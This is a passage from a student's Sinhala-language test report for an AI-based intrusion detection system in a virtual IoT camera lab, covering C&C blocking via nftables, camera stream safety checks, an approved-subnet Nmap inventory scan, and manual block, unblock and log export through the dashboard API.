  > *(සටහන: ඉහත පියවර දෙකම ස්වයංක්‍රීයව run කර Proposal Table 10 Markdown පරීක්ෂණ වාර්තාවක්ද සෑදීමට අවශ්‍ය නම් පමණක් `.venv\Scripts\python.exe lab_virtual\lab.py scenario 4` ධාවනය කළ හැක).*
  >
- **පියවර 3: ප්‍රහාරය අතරතුර Router එකේ `block_dst` නැවත පරීක්ෂා කිරීම:**

  ```powershell
  docker exec ids-lab-router nft list set inet ids block_dst
  ```

  > **කේතයෙන් සිදුවන දේ සරලව:** විධාන දෙක run කර තත්පර 30–60 කට පසු Router එකේ Drop ලැයිස්තුව නැවත පරීක්ෂා කර, Attacker IP එක මිනිත්තු 30 ක timeout එකක් සමඟ ඇතුළත් වී ඇත්දැයි පෙන්වන්න.
  >
- **ලැබෙන සැබෑ පිළිතුර (Verified Output):**

  ```text
  table inet ids {
  	set block_dst {
  		type ipv4_addr
  		flags timeout
  		elements = { 10.10.10.50 timeout 30m expires 28m40ms }
  	}
  }
  ```
  *(12 Nov 2026 දින ලැබූ සැබෑ පිළිතුර. `expires` අගය nft විසින් milliseconds සමඟ (`28m40ms` = මිනිත්තු 28, ms 40 පමණ) පෙන්විය හැක.)*

  > **ලැබුණු දත්ත වල තේරුම (Output Breakdown):**
  >
  > - **`10.10.10.50`:** පිටත ජාලයේ සිටින Command & Control (C&C) Master Server එකෙහි IP ලිපිනය (Attacker Machine).
  > - **`timeout 30m`:** පද්ධතිය විසින් මිනිත්තු 30 ක (තත්පර 1800) කාලයකට Drop rule එක පනවා ඇත.
  > - **`expires 28m40ms`:** Router kernel එකේ ඉතිරි කාලයයි (command එක නැවත run කළ විට අඩුවී ඇති බව පෙනේ). මිනිත්තු 30 අවසන් වූ සැණින් Rule එක ඉබේම ඉවත් වේ. (Dashboard එකේ countdown එකක් නැත; එහි ඇත්තේ EXPIRES AT වේලාවයි.)
  >
  > 💡 **විශේෂ පැහැදිලි කිරීම: පැකට් යැව්වේ කැමරාව නම්, 10.10.10.50 ප්‍රහාරකයා (Attacker) ලෙස සලකා Block කළේ ඇයි?**
  >
  > 1. **10.10.10.50 යනු කවුද?**
  >    - අපගේ lab ජාල සැලසුම අනුව (`lab_virtual/docker-compose.yml`, proposal Figure 2), `192.168.50.30` යනු අභ්‍යන්තර කැමරාව වන අතර, **`10.10.10.50` යනු පිටත ජාලයේ (Outside LAN) සිටින Attacker ගේ පරිගණකයයි (`ids-lab-attacker` + `ids-lab-attack-server`)**.
  > 2. **C&C (Command & Control) ප්‍රහාරයක ස්වභාවය (Botnet Reverse Connection):**
  >    - සාමාන්‍ය Port Scan හෝ DDoS ප්‍රහාරවලදී පිටත සිටින Attacker කෙලින්ම කැමරාවට පැකට් එවයි.
  >    - නමුත් **Botnet / Mirai Malware ප්‍රහාරවලදී සිදුවන්නේ ඊට හාත්පසින්ම වෙනස් ක්‍රියාවලියකි:**
  >      - ආසාදනය වූ කැමරාවක්, පිටත අන්තර්ජාලයේ සිටින හැකර්ගේ Master Command Server එක වෙත වරින් වර සම්බන්ධ වී *"මම සූදානම්, මීළඟට කළ යුත්තේ කුමක්ද?"* කියා විමසයි (Periodic Outbound Beacons).
  >      - මෙහිදී හැකර්ගේ Master C&C Server එක පිහිටුවා ඇත්තේ **`10.10.10.50`** මතයි (Port 6667).
  >      - එබැවින් මෙහිදී **පැකට් යවන්නා (Source) කැමරාව (`192.168.50.30`) වුවද, ප්‍රහාරය මෙහෙයවන සහ ආසාදනය පාලනය කරන සැබෑ ප්‍රහාරකයා වන්නේ පිටත ඇති C&C Server එකයි (`10.10.10.50` - Destination)!**
  > 3. **පද්ධතිය 10.10.10.50 ප්‍රහාරකයෙකු බව නිගමනය කළේ කෙසේද?**
  >    - කැමරාව සාමාන්‍යයෙන් දත්ත යැවිය යුත්තේ Local NVR එකට (`192.168.50.20:554` RTSP) පමණි. කැමරාව පිටත නොදන්නා IP එකක (`10.10.10.50`) Port 6667 (IRC Botnet Port) වෙත තත්පර 5 කට වරක් periodic කෙටි TCP flows යැවීම සාමාන්‍ය හැසිරීමක් නොවේ.
  >    - අපගේ Random Forest AI Model v3.1.0 එක මෙම flow features 27 පරීක්ෂා කර, මෙය **`CnC`** (Command & Control) ලෙස, CnC block සීමාව ($P \ge 0.30$) ඉක්මවූ confidence එකකින් (12 Nov 2026: 0.93; 13 Nov: 0.86; 11 Nov: 0.91) හඳුනාගනී.
  > 4. **ඇයි කැමරාව Block නොකර `block_dst` මඟින් `10.10.10.50` Block කළේ? (Local Network Protection):**
  >    - සාමාන්‍ය IDS එකක් නම්, පැකට් එන්නේ කැමරාවෙන් නිසා Source IP එක වන කැමරාව block කර කැමරාවේ වීඩියෝවද නවතා දමනු ඇත!
  >    - නමුත් අපගේ පද්ධතියේ ආරක්ෂක නීති (Proposal Section 3.7, Table 5, RQ5) ක්‍රියාත්මක වේ:
  >      - **වින්දිතයා ආරක්ෂා කිරීම (Victim Protection):** කැමරාව (`192.168.50.30`) යනු ප්‍රහාරකයා නොව ප්‍රහාරයට ලක්වූ අහිංසක උපාංගයයි. එය Local Subnet (`192.168.50.0/24`) හි ඇති බැවින් `lab.local_networks` නීතිය යටතේ **කැමරාව කිසිසේත්ම Block නොකරයි!**
  >      - **නපුරු Destination එක Block කිරීම (`block_dst`):** ප්‍රහාරය මෙහෙයවන පිටත C&C Server එක වන්නේ **`10.10.10.50`** බැවින්, Router එකේ `block_dst` (Destination Drop Set) එකට `10.10.10.50` දමයි.
  >      - **ප්‍රතිඵලය:** කැමරාවට හැකර්ගේ C&C Server එක සමඟ ඇති සම්බන්ධය කපා දමයි (C&C cut-off). කැමරාව සහ Local NVR එක අතර stream එක (Port 554) router එක හරහා නොයන බැවින් නොනැවතී ක්‍රියාත්මක වේ (4.2.9).
  >
- **🖥️ Dashboard එකෙන් සජීවීව පෙනෙන ආකාරය (What Appears on the React Dashboard):**

  1. **Live Alerts පිටුව (`http://localhost:5000/alerts`):**
     - Browser එක refresh කිරීමකින් තොරවම (WebSocket event `new_event` - Proposal FR-04), අලුත් alert කාඩ්පතක් ඉහළට වැටේ:
       - **Badge:** `MODEL PREDICTION` (නිල්) - පරිපාලකයා "Confirm" කළ පසු `CONFIRMED INCIDENT` (රතු) වේ.
       - **Class:** `CnC` (දම් පැහැති pill එක), **Confidence:** `93%` පමණ, **severity** `high`
       - **Source $\rightarrow$ Destination:** `192.168.50.30:<port>` $\rightarrow$ `10.10.10.50:6667` (TCP), direction `outbound`
       - **Response:** `RESPONSE: BLOCKED` (රතු badge එක)
  2. **Mitigations පිටුව (`http://localhost:5000/mitigations`):**
     - Active blocks වගුව තුළ `10.10.10.50` ලිපිනය (direction `destination`, reason `AUTO_CNC_DEST_BLOCK`, actor `autonomous_policy`) දිස්වේ.
     - එහි **EXPIRES AT** තීරුව තුළ block එක අවසන් වන වේලාව දිස්වන අතර, Router එකෙහි `timeout 30m` ක්‍රියාත්මක වේ.
     - පරිපාලකයාට අවශ්‍ය නම් පසෙකින් ඇති `UNBLOCK` බොත්තම ක්ලික් කර එම block එක අතින් ඉවත් කිරීමටද (Manual Rollback - FR-06) හැකියාව ඇත.
- **මෙයින් ඔප්පු වන කරුණ:**

  - AI Model එක මඟින් C&C ප්‍රහාරය හඳුනාගැනීමෙන් පසු SSH මඟින් Router kernel එකට Drop rule එක ඇතුළත් කර ඇත.
  - මිනිත්තු 30 ක (`timeout 30m`) කාලයක් සක්‍රිය වී ඇති අතර, එය අවසන් වූ පසු rule එක kernel එකෙන්ම ඉබේම ඉවත් වේ.
  - Dashboard එකේ **Live Alerts** පිටුවේ CnC alert එක සහ **Mitigations** පිටුවේ block record එක refresh නොවී සජීවීව වැටේ (FR-04).
  - කැමරාව (`192.168.50.30`) කිසිවිටෙක block නොවේ.
- **Supervisor ට පැහැදිලි කරන ආකාරය:**

  > *"Sir, as in Scenario 4, the camera keeps trying to reach the outside C&C server. After three CnC alerts within 60 seconds, the decision engine puts 10.10.10.50 into the router's block_dst set for 30 minutes, and the alert reaches the dashboard through WebSockets. The camera is protected by the local-network rule and is never blocked."*
  >

---

### 4.2.9 ප්‍රහාරය අතරතුරදීත් කැමරා stream එකට බාධාවක් නොවීම සහ කැමරාව block නොවීම (Camera Safety During Attacks - RQ5, Table 9 Benign Safety)

> 🎯 **Proposal එකේ මෙම පරීක්ෂණයෙන් සාක්ෂාත් වන අරමුණ සහ ඔප්පු වන කරුණු (What this Test Proves):**
>
> - **ඉටුවන පර්යේෂණ අරමුණ (Objective):** **Objective O5** ("Safe response rules preventing false cutoff of normal camera access").
> - **විසඳෙන පර්යේෂණ ගැටලුව (RQ):** **Research Question RQ5** ("What safety rules do we need so that automatic response does not stop normal camera access?") සහ **Table 9 Benign Safety** ("no blocks on the management computer or the NVR; camera access keeps working").
> - **⚠️ Hypothesis H1 පිළිබඳ අවංක සටහන:** H1 හි දෙවන කොටස (සැබෑ කැමරා traffic මත benign false-positive rate ≤ 5%) මෙම Virtual Lab පරීක්ෂණයෙන් **මැනිය නොහැක**: මෙහි කැමරාව simulator එකකි. එය සැබෑ කැමරාවක් සමඟ Hardware Lab එකෙන් මැනිය යුතුය (`lab_hardware/README.md`). මෙම පරීක්ෂණය පෙන්වන්නේ ආරක්ෂක නීති (RQ5) ක්‍රියාත්මක වන බවයි.
> - **මෙය සිදු කළේ ඇයි? (Core Rationale):** අපේ පද්ධතියේ ප්‍රධාන ආරක්ෂක නීතිය වන්නේ *"ප්‍රහාරකයාව block කළද, කැමරාව, NVR, Admin PC block නොවිය යුතු අතර, කැමරාවෙන් NVR එකට යන stream එක නොකැඩිය යුතුය"* යන්නයි. 4.2.8 (C&C block) සහ 4.3.2 (SYN flood) අතරතුර සහ පසුව NVR එක සෑම මිනිත්තු 5 කම සම්පූර්ණ 58.6 MB segment එක පටිගත කරන බවත්, router එකේ කිසිදු ආරක්ෂිත IP එකක් block නොවූ බවත් මෙයින් පෙන්වයි.
> - **Supervisor ට කියන සාරාංශ සාක්ෂිය:** *"Sir, this addresses RQ5 and the Table 9 benign-safety check. While the outside attacker was blocked and rate-limited, the NVR kept recording the full 58.6 MB in every 5-minute segment, and no protected device was ever put into a block set. The false-positive part of H1 needs the real camera, so it will be measured in the hardware lab."*

- **ධාවනය කළ යුතු Commands (Terminal):**

  ```powershell
  # 1. NVR එක ප්‍රහාර අතරතුරත් නොකඩවා පටිගත කළ බව (සෑම පේළියක්ම මිනිත්තු 5 ක segment එකකි):
  docker logs ids-lab-nvr --tail 6

  # 2. Router එකේ block sets තුනේ කිසිම ආරක්ෂිත IP එකක් (.1, .5, .10, .20, .30) නැති බව:
  docker exec ids-lab-router nft list table inet ids | Select-String "elements"

  # 3. Admin PC එකට තවමත් කැමරා පිටුව විවෘත වන බව:
  docker exec ids-lab-admin python -c "import urllib.request; print('camera page HTTP', urllib.request.urlopen('http://192.168.50.30/').status)"
  ```

  > **කේතයෙන් සිදුවන දේ සරලව (Command Breakdown):**
  >
  > - **`docker logs ids-lab-nvr --tail 6`:** NVR එකේ අන්තිම segments 6 (මිනිත්තු 30 ක් පමණ). ප්‍රහාර run කළ වේලාවන් ආවරණය වන ලෙස බලන්න.
  > - **`nft list table inet ids | Select-String "elements"`:** Router එකේ ඇති සියලු IP ලැයිස්තු පෙන්වයි. `allow` set එකේ ආරක්ෂිත IP 4 ද, block sets වල ප්‍රහාරක IP (`10.10.10.50`) පමණක්ද තිබිය යුතුය.
  > - **Admin → camera HTTP:** කළමනාකරණ ප්‍රවේශය නොකැඩුණු බව.
  >
- **ලැබෙන සැබෑ පිළිතුර (12 Nov 2026: C&C block එක 17:56 ට, SYN flood එක 17:58 ට):**

  ```text
  17:49:31 NVR: recorded 58.6 MB
  17:54:31 NVR: recorded 58.6 MB
  17:59:31 NVR: recorded 58.6 MB
  18:04:31 NVR: recorded 58.6 MB
  ```
  *(17:54:31–17:59:31 segment එක තුළ C&C block එක සහ SYN flood එක යන දෙකම සිදුවිය; එම segment එකද සම්පූර්ණ 58.6 MB කි.)*

- **මෙයින් ඔප්පු වන කරුණ:**
  - Attacker (`10.10.10.50`) block / rate-limit වී ඇති අතරතුර, කැමරාව (`192.168.50.30`) සහ NVR (`192.168.50.20`) අතර stream එක නොකැඩී ක්‍රියාත්මක විය.
  - කැමරාව, NVR, Admin PC, Router, Scanner කිසිවක් block නොවිය (IDS වාර්තා වල `Protected devices blocked: none (correct)`).
  - **අවංක සටහන:** කැමරාව සහ NVR එකම LAN එකේ ඇති බැවින් ඔවුන් අතර traffic router එක හරහා යන්නේ නැත. එබැවින් stream එක නොකැඩීම පෙන්වන්නේ කැමරාව block නොවූ බව සහ ප්‍රහාරය එයට බලපෑ නොවූ බවයි; router firewall එකේ ක්‍රියාකාරීත්වය පෙන්වන්නේ 4.2.8 සහ 4.2.11 යි.
- **Supervisor ට පැහැදිලි කරන ආකාරය:**

  > *"Sir, this is our safety check for RQ5. The attacker was blocked and rate-limited, yet the NVR recorded every 5-minute segment in full and no protected address appears in any block set. The camera is protected by the local-network rule, the NVR and admin PC by the allowlist."*
  >

---

### 4.2.10 පාලනය කළ Nmap Scan මඟින් අනුමත උපාංග සහ සේවාවන් හඳුනාගැනීම (Controlled Nmap Device Discovery - FR-05 & Section 3.7)

> 🎯 **Proposal එකේ මෙම පරීක්ෂණයෙන් සාක්ෂාත් වන අරමුණ සහ ඔප්පු වන කරුණු (What this Test Proves):**
>
> - **ඉටුවන පර්යේෂණ අරමුණ (Objective):** **Objective O4** ("Build the monitoring, dashboard, storage and alerts, and join them together") සහ **Section 3.7** ("Device Discovery and Automated Response").
> - **සම්පූර්ණ වන ක්‍රියාකාරී අවශ්‍යතාවය (Requirement):** **Table 7 FR-05 (Should)** — "Find approved devices and services with controlled Nmap scans (Priority: Should / inventory test)".
> - **මෙය සිදු කළේ ඇයි? (Core Rationale):** අනුමත IP පරාසය (`192.168.50.0/24`, `lab.approved_scan_subnets`) තුළ පමණක් ක්‍රියාත්මක වන **සැබෑ Nmap** inventory scan එකක් පද්ධතිය තුළ ඇති බවත්, සොයාගත් උපාංග සහ ඒවායේ ports / services MongoDB `devices` collection එකේ සටහන් වී Dashboard එකේ **Devices & Scans (`/devices`)** පිටුවේ පෙනෙන බවත්, එක් port එකකින් පමණක් නොව **සාක්ෂි 2 ක් හෝ වැඩි ගණනකින්** "possible camera" තීරණය කරන බවත් (Section 3.7), පරිපාලකයාට කැමරා භූමිකාව තහවුරු කළ හැකි බවත් පෙන්වීමටයි.
> - **Supervisor ට කියන සාරාංශ සාක්ෂිය:** *"Sir, this satisfies Table 7 FR-05 and Section 3.7. The dashboard starts a real Nmap scan of the approved subnet only. It found six addresses; only the camera at .30 is marked as a possible camera, with four pieces of evidence, not one port. The admin can then mark it as a confirmed camera, and that action is audited."*

---

#### 1. Scan එක ධාවනය වන්නේ කොහෙන්ද? (Where Does the Scan Run?)

- Windows PC එකට Docker lab ජාල වෙත සෘජුවම ළඟා විය නොහැක. එබැවින් IDS එක **`ids-lab-scanner`** (`192.168.50.5`, lab plan එකේ sensor management port එක) container එක තුළ සැබෑ Nmap ධාවනය කරයි: `docker exec ids-lab-scanner nmap ...` (setting `scanner.nmap_command`, decision **D-057**).
- Simulated (ව්‍යාජ) scan එක **අක්‍රියයි** (`scanner.allow_simulation: false`). Nmap නොමැති නම් scan එක පැහැදිලි දෝෂයක් සමඟ fail වේ; ව්‍යාජ උපාංග කිසිවිටෙක පෙන්වන්නේ නැත. (Software tests සඳහා simulation භාවිත කළහොත්, එම උපාංග "SIMULATED - NOT A REAL DEVICE" ලෙස රතු ලේබලයකින් පෙන්වයි.)
- Hardware Lab එකේදී sensor එකම Nmap ධාවනය කරයි.

#### 2. Scan එකෙන් සොයාගන්නා උපාංග 6 (The 6 Addresses the Real Scan Finds)

| IP | Container / උපාංගය | Open ports | Camera heuristic |
| :--- | :--- | :--- | :--- |
| `192.168.50.1` | `ids-lab-router` (Router) | 22 | Standard Host |
| `192.168.50.5` | `ids-lab-scanner` (scan එක කරන යන්ත්‍රයම) | - | Standard Host |
| `192.168.50.10` | `ids-lab-admin` (Admin PC) | - | Standard Host |
| `192.168.50.20` | `ids-lab-nvr` (NVR) | - | Standard Host |
| `192.168.50.30` | `ids-lab-camera` (IP camera simulator) | 80, 554 | **POSSIBLE CAMERA** |
| `192.168.50.254` | Docker `br-ids-lan` bridge එකේම ලිපිනය | - | Standard Host |

*(Vendor එක "unknown" ලෙස පෙනේ: Docker විසින් අහඹු MAC ලිපින දෙන බැවින් vendor (OUI) එකක් නැත. MAC ලිපින `lab.py down` / `up` කළ සෑම වරකම වෙනස් වේ.)*

#### 3. Terminal එකෙන් ස්කෑන් එක දියත් කර උපාංග තොරතුරු ලබාගැනීම (Terminal Execution):

```powershell
python -c "
import urllib.request, json, time
with open('lab_virtual/keys/dashboard_login.txt') as f:
    u, p = f.read().strip().split()[:2]
tok = json.loads(urllib.request.urlopen(urllib.request.Request('http://127.0.0.1:5000/api/auth/login', data=json.dumps({'username':u,'password':p}).encode(), headers={'Content-Type':'application/json'})).read())['token']
H = {'Content-Type': 'application/json', 'Authorization': 'Bearer ' + tok}

# 1. අනුමත Subnet එක Scan කිරීම ආරම්භ කිරීම (Proposal FR-05) - scan එක background එකේ ධාවනය වේ (HTTP 202)
start = json.loads(urllib.request.urlopen(urllib.request.Request('http://127.0.0.1:5000/api/scans', data=json.dumps({'subnet': '192.168.50.0/24'}).encode(), headers=H)).read())
scan_id = start['scan']['scan_id']
print('Scan started:', scan_id)

# 2. Scan එක අවසන් වන තෙක් (තත්පර ~30) බලා සිටීම
t0 = time.time()
while True:
    s = json.loads(urllib.request.urlopen(urllib.request.Request('http://127.0.0.1:5000/api/scans/' + scan_id, headers=H)).read())
    s = s.get('scan', s)
    if s.get('status') in ('completed', 'failed'):
        break
    time.sleep(3)
print('Scan', s.get('status'), 'in', round(time.time() - t0), 's')

# 3. සොයාගත් උපාංග (MongoDB devices collection)
for d in json.loads(urllib.request.urlopen(urllib.request.Request('http://127.0.0.1:5000/api/devices', headers=H)).read())['devices']:
    print('%-15s %-18s ports=%-10s possible_camera=%-5s confirmed=%-5s simulated=%s' % (d['ip'], d.get('mac') or '-', d.get('open_ports'), d.get('possible_camera'), d.get('confirmed_camera'), d.get('simulated')))
"
```

> **කේතයෙන් සිදුවන දේ සරලව (Line-by-Line Breakdown):**
>
> - **`POST /api/auth/login`:** JWT token එක ලබාගැනීම (Section 3.7 - Authenticated Admin).
> - **`POST /api/scans`:** අනුමත Subnet එක (`192.168.50.0/24`) සඳහා Nmap scan එකක් ආරම්භ කරයි. අනුමත නොවන subnet එකක් දුන්නොත් backend එක එය ප්‍රතික්ෂේප කරයි.
> - **`GET /api/scans/<scan_id>`:** Scan එක `completed` වන තෙක් තත්පර 3 කට වරක් බලයි (scan එකට තත්පර ~30 ක් ගතවේ; වහාම devices කියවුවහොත් පැරණි ලැයිස්තුව ලැබේ).
> - **`GET /api/devices`:** Scan එක මඟින් MongoDB `devices` collection එකේ ලියූ උපාංග ලබාගැනීම.

- **ලැබෙන සැබෑ පිළිතුර (Verified Output - 12 Nov 2026):**

  ```text
  Scan started: 052f2d5f-68aa-4897-b44e-1374eee9b798
  Scan completed in 27 s
  192.168.50.5    unknown            ports=[]         possible_camera=False confirmed=False simulated=False
  192.168.50.30   AE:FC:89:05:69:8E  ports=[80, 554]  possible_camera=True  confirmed=False simulated=False
  192.168.50.254  FA:0D:08:6F:6D:3E  ports=[]         possible_camera=False confirmed=False simulated=False
  192.168.50.20   76:CD:2C:44:47:47  ports=[]         possible_camera=False confirmed=False simulated=False
  192.168.50.10   1E:4A:1A:46:92:B8  ports=[]         possible_camera=False confirmed=False simulated=False
  192.168.50.1    1E:73:30:1F:CD:91  ports=[22]       possible_camera=False confirmed=False simulated=False
  ```

  **කැමරාවේ සාක්ෂි (`camera_evidence`, `.30` record එක):**
  ```text
  RTSP streaming port 554 is open (video payload transport)
  Service banner indicates RTSP protocol: 'rtsp'
  Device hostname suggests camera role: 'ids-lab-camera-net.ids-lab_camlan'
  Web management interface paired with video streaming ports
  possible_services: ['http BaseHTTPServer', 'rtsp']
  ```

  ⚠️ **අවංක සටහන:** Scan එකේ probes `192.168.50.5` සිට පැමිණෙන බැවින්, Live Alerts හි `.5` source එකෙන් PortScan / CnC / DDoS_DoS alerts කිහිපයක් පෙනේ. `.5` allowlist එකේ ඇති බැවින් ඒවා `RESPONSE: ALLOWLIST_PROTECTED` වන අතර කිසිවිටෙක block නොවේ.

---

#### 4. 🖥️ Dashboard එකෙන් සජීවීව පෙනෙන ආකාරය (`http://localhost:5000/devices` - Devices & Scans):

SOC Dashboard එකේ වම්පස මෙනුවේ **"Devices & Scans"** ක්ලික් කළ විට:

```
┌──────────────────────────────────────────────────────────────────────────────────────────────────────────────┐
│  DEVICES & SCANS                                             [ 192.168.50.0/24 ]  [ ▶ TRIGGER NMAP ]        │
├────────────────┬──────────────────────────────┬────────────┬───────────────────┬─────────────────┬───────────┤
│ IP ADDRESS     │ MAC / VENDOR                 │ OPEN PORTS │ SERVICES          │ CAMERA HEURISTIC│ ADMIN ... │
├────────────────┼──────────────────────────────┼────────────┼───────────────────┼─────────────────┼───────────┤
│ 192.168.50.1   │ 1E:73:30:1F:CD:91 vendor unk.│ 22         │ ssh OpenSSH       │ Standard Host   │ MARK CAM. │
│ 192.168.50.5   │ unknown  vendor unknown      │ None       │ —                 │ Standard Host   │ MARK CAM. │
│ 192.168.50.10  │ 1E:4A:1A:46:92:B8 vendor unk.│ None       │ —                 │ Standard Host   │ MARK CAM. │
│ 192.168.50.20  │ 76:CD:2C:44:47:47 vendor unk.│ None       │ —                 │ Standard Host   │ MARK CAM. │
│ 192.168.50.30  │ AE:FC:89:05:69:8E vendor unk.│ 80, 554    │ http BaseHTTP.., rtsp │ POSSIBLE CAMERA │ MARK CAM. │
│ 192.168.50.254 │ FA:0D:08:6F:6D:3E vendor unk.│ None       │ —                 │ Standard Host   │ MARK CAM. │
└────────────────┴──────────────────────────────┴────────────┴───────────────────┴─────────────────┴───────────┘
```
*(MAC ලිපින ඔබගේ run එකේදී වෙනස් වේ.)*

> **UI අංග වල ක්‍රියාකාරීත්වය (Interactive Elements Breakdown):**
>
> 1. **`CAMERA HEURISTIC` තීරුව (Section 3.7 - "one port number is not proof"):**
>    - සාක්ෂි **2 ක් හෝ වැඩි** ගණනක් ඇති උපාංගයක් පමණක් කහ පැහැති **`POSSIBLE CAMERA`** ලෙස ලේබල් කරයි. මෙහි `.30` ට සාක්ෂි 4 ක් ඇත.
>    - අනෙක් උපාංග **`Standard Host`** ලෙස පෙනේ.
> 2. **`ADMIN STATUS` තීරුව (`MARK CAMERA` / `CONFIRMED CAMERA` බොත්තම):**
>    - පරිපාලකයා `MARK CAMERA` ක්ලික් කළ විට උපාංගය `CONFIRMED CAMERA` (කොළ) ලෙස සටහන් වේ (`PATCH /api/devices/<ip>/confirm-camera`) සහ audit log එකේ `DEVICE_CAMERA_CONFIRMED` ලෙස ලියවේ.
>    - **මෙය allowlist එකට එකතු නොකරයි.** කැමරාව auto-block වලින් ආරක්ෂා වන්නේ `lab.local_networks` (`192.168.50.0/24`) නීතියෙනි; allowlist එක වෙනස් කිරීමට Settings පිටුව භාවිත වේ.
> 3. **`EVIDENCE` තීරුව (`Inspect` බොත්තම):** පද්ධතිය මෙම උපාංගය කැමරාවක් ලෙස සැක කිරීමට හේතු වූ සාක්ෂි (ඉහත 4) popup එකකින් පෙන්වයි.
> 4. **`[TRIGGER NMAP]` බොත්තම (ඉහළ දකුණු කෙළවර):** පිටුවෙන් පිට නොවී subnet එක නැවත scan කරයි; progress bar එක සහ නව උපාංග live update වේ.

- **මෙයින් ඔප්පු වන කරුණ:**

  - Proposal FR-05 සහ Section 3.7: අනුමත subnet එක තුළ පමණක් සැබෑ Nmap scan එකක් ධාවනය වී, උපාංග 6 සහ ඒවායේ open ports හඳුනාගෙන Dashboard එකේ **Devices & Scans** පිටුවේ පෙන්වයි.
  - Camera heuristic එක එක් port එකක් මත නොව සාක්ෂි කිහිපයක් මත ක්‍රියා කරයි; NVR, Admin, Router "camera" ලෙස වැරදියට ලේබල් නොවේ.
- **Supervisor ට පැහැදිලි කරන ආකාරය:**

  > *"Sir, this satisfies FR-05 and Section 3.7. Our scanner runs real Nmap, only on the approved subnet. Six addresses were found; only the camera is a possible camera, with four pieces of evidence: RTSP port 554, the RTSP service banner, the device name, and a web interface next to the stream port. The administrator can inspect that evidence and mark the camera as confirmed; that action is written to the audit log."*
  >

---

### 4.2.11 පරිපාලකයාට Manual Block, Unblock කිරීම සහ Audit Logs Export කිරීම (Manual Block/Unblock, Audit Trail & Filtered Export - FR-07, FR-08, Scenario 6, Objective O5)

> 🎯 **Proposal එකේ මෙම පරීක්ෂණයෙන් සාක්ෂාත් වන අරමුණ සහ ඔප්පු වන කරුණු (What this Test Proves):**
>
> - **ඉටුවන පර්යේෂණ අරමුණ (Objective):** **Objective O5** ("Build IP blocking that follows the policy, and let the admin undo it by hand").
> - **සම්පූර්ණ වන ක්‍රියාකාරී අවශ්‍යතා (Requirements):**
>   - **Table 7 FR-06 (Must):** Firewall blocking rule addition & removal.
>   - **Table 7 FR-07 (Must):** "Keep the allowlists, confidence thresholds, and a full audit history."
>   - **Table 7 FR-08 (Should):** "Export filtered attack logs for testing and reporting (Priority: Should / export test)."
> - **අදාළ පරීක්ෂණ අවස්ථාව සහ පිළිගැනීමේ ඉලක්කය (Scenario & Acceptance):** **Table 10 Scenario 6** ("Manual block and unblock: rule change seen in dashboard/database, connection comes back, full audit record kept") සහ **Table 9 Usability/Audit Acceptance Criteria** ("The administrator can finish the set tasks, and we can trace every action").
> - **මෙය සිදු කළේ ඇයි? (Core Rationale):** ආරක්ෂක නිලධාරියාට (Security Analyst) අවශ්‍ය ඕනෑම මොහොතක Dashboard එකෙන් සැකකටයුතු IP එකක් අතින් Block කිරීමට (Manual Block), නැවත එය මුදාහැරීමට (Manual Unblock / Rollback), එම සෑම ක්‍රියාවක්ම `system_logs` හි සදාකාලිකව සටහන් වන බව තහවුරු කිරීමට, සහ සියලුම ප්‍රහාරක ලඝු සටහන් සම්මත RFC 4180 CSV හෝ JSON ආකෘතියෙන් බාගත (Export) කර වාර්තා සෑදීමට හැකි බව ඔප්පු කිරීමටයි.
> - **Supervisor ට කියන සාරාංශ සාක්ෂිය:** *"Sir, this satisfies Objective O5, FR-07, FR-08, and Table 10 Scenario 6. The administrator can manually enforce or rollback firewall blocks from the dashboard, see every action in the audit trail (system_logs), and export filtered incident reports as RFC 4180 CSV or JSON."*

- **ධාවනය කළ යුතු Command එක (Terminal):**

  ```powershell
  python -c "
  import urllib.request, json
  with open('lab_virtual/keys/dashboard_login.txt') as f:
      u, p = f.read().strip().split()[:2]
  tok = json.loads(urllib.request.urlopen(urllib.request.Request('http://127.0.0.1:5000/api/auth/login', data=json.dumps({'username':u,'password':p}).encode(), headers={'Content-Type':'application/json'})).read())['token']
  # 1. Manual Block (Proposal FR-06 & Scenario 6)
  req_b = urllib.request.Request('http://127.0.0.1:5000/api/blocklist', data=json.dumps({'ip':'10.10.10.99','duration_minutes':15,'reason':'manual test'}).encode(), headers={'Content-Type':'application/json','Authorization':'Bearer '+tok}, method='POST')
  print('Manual Block Status:', urllib.request.urlopen(req_b).getcode())
  # 2. Manual Unblock / Rollback (Proposal Objective O5 & Scenario 6)
  req_u = urllib.request.Request('http://127.0.0.1:5000/api/blocklist/10.10.10.99', data=json.dumps({'reason':'manual rollback test'}).encode(), headers={'Content-Type':'application/json','Authorization':'Bearer '+tok}, method='DELETE')
  print('Manual Unblock Status:', urllib.request.urlopen(req_u).getcode())
  # 3. Filtered Log Export (Proposal FR-08)
  req_e = urllib.request.Request('http://127.0.0.1:5000/api/logs/export?format=csv&type=attack_events', headers={'Authorization':'Bearer '+tok})
  res_e = urllib.request.urlopen(req_e)
  print('CSV Export Status:', res_e.getcode())
  print('CSV Headers:', res_e.read().decode().splitlines()[0][:80] + '...')
  "
  ```

  > **කේතයෙන් සිදුවන දේ සරලව (Line-by-Line Breakdown):**
  >
  > - **`POST /api/blocklist`:** Admin විසින් IP `10.10.10.99` මිනිත්තු 15 කට Firewall එකේ block කිරීම (Response: 201 Created).
  > - **`DELETE /api/blocklist/10.10.10.99`:** Admin විසින් එම block එක ඉවත් කර Rollback කිරීම (Response: 200 OK).
  > - **`GET /api/logs/export?format=csv`:** Proposal FR-08 අනුව ප්‍රහාරක logs RFC 4180 CSV ආකෘතියෙන් බාගත කිරීම (Response: 200 OK).
  >
- **ලැබෙන සැබෑ පිළිතුර (Verified Output):**

  ```text
  Manual Block Status: 201
  Manual Unblock Status: 200
  CSV Export Status: 200
  CSV Headers: event_id,timestamp,direction,src_ip,src_port,dst_ip,dst_port,proto,service...
  ```
- **🖥️ Dashboard එකෙන් සජීවීව පෙනෙන ආකාරය (What Appears on the Dashboard UI):**

  1. **Mitigations පිටුව (`http://localhost:5000/mitigations`):**
     - පිටුවේ ඉහළ ඇති **"CREATE MANUAL FIREWALL MITIGATION"** කොටසේ Target IP Address (`10.10.10.99`), Traffic Direction, Duration (Minutes: 15), සහ Reason ඇතුළත් කර **`ENFORCE BLOCK`** ක්ලික් කළ විට, Router Firewall එකේ rule එක වැටී active blocks වගුවේ **EXPIRES AT** වේලාව සමඟ දිස්වේ.
     - වගුවේ පසෙකින් ඇති රතු පැහැති **`UNBLOCK`** බොත්තම ක්ලික් කළ සැණින් (Manual Rollback - Objective O5), rule එක router එකෙන් ඉවත් වී වගුවෙන් මැකී යයි.
